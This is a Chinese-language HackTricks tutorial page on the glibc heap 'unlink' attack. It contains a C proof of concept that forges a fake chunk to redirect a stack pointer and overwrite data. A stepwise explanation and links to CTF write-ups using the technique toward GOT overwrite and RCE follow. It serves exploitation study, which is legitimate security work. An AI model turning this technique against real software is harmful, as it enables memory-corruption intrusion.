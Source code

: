 # Unlink 攻击

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

其他支持 HackTricks 的方式：

- 如果您想看到您的公司在 HackTricks 中被广告，或者**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
- 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## 基本信息

当这种攻击被发现时，它主要允许进行 WWW（Write What Where）攻击，但是一些**检查被添加**，使得攻击的新版本更加有趣和更加复杂，**无用**。

### 代码示例：

<details>

<summary>代码</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

### 目标

* 修改堆栈中指向一个块的指针，使其指向堆栈，从而可以通过在块中写入内容来修改堆栈的内容

### 要求

* 在内存中（例如堆栈）有一定的控制权，以创建一对给定一些属性值的块。
* 需要堆栈泄漏以设置假块的指针。

### 攻击

* 有一对块（chunk1 和 chunk2）
* 攻击者控制 chunk1 的内容和 chunk2 的头部。
* 在 chunk1 中，攻击者创建了一个假块的结构：
* 为了绕过保护，确保字段 `size` 正确，以避免错误：`corrupted size vs. prev_size while consolidating`
* 假块的字段 `fd` 和 `bk` 指向 chunk1 指针存储的位置，偏移分别为 -3 和 -2，因此 `fake_chunk->fd->bk` 和 `fake_chunk->bk->fd` 指向内存（堆栈）中真实 chunk1 地址所在的位置：

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* 修改了 chunk2 的头部，指示前一个块未使用，并且大小是包含的假块的大小。
* 当第二个块被释放时，发生了这个假块被取消链接的过程：
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* 之前确保 `fake_chunk->fd->bk` 和 `fake_chunk->fd->bk` 指向相同位置（堆栈中存储 `chunk1` 的位置，因此是有效的链接列表）。由于**两者都指向相同位置**，只有最后一个（`fake_chunk->bk->fd = fake_chunk->fd`）会**生效**。
* 这将**覆盖堆栈中指向 chunk1 的指针，使其指向堆栈中存储的地址（或字节）的前 3 个地址**。
* 因此，如果攻击者再次控制 chunk1 的内容，他将能够**在堆栈内部写入**，从而有可能覆盖返回地址，跳过 canary 并修改本地变量的值和指针。甚至再次修改堆栈中存储的 chunk1 地址的地址，将其指向不同的位置，如果攻击者再次控制 chunk1 的内容，他将能够在任何地方写入。
* 请注意，这是可能的，因为**地址存储在堆栈中**。风险和利用可能取决于**假块地址存储在何处**。

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## 参考资料

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* 尽管在 CTF 中找到 unlink 攻击可能有些奇怪，但这里有一些使用此攻击的 writeup：
* CTF 示例：[https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* 在这个示例中，不是堆栈，而是一组 malloc 分配的地址数组。执行 unlink 攻击以能够在此处分配一个块，从而能够控制 malloc 分配的地址数组的指针。然后，还有另一个功能，允许修改这些地址中块的内容，这允许将地址指向 GOT，修改函数地址以获取泄漏和 RCE。
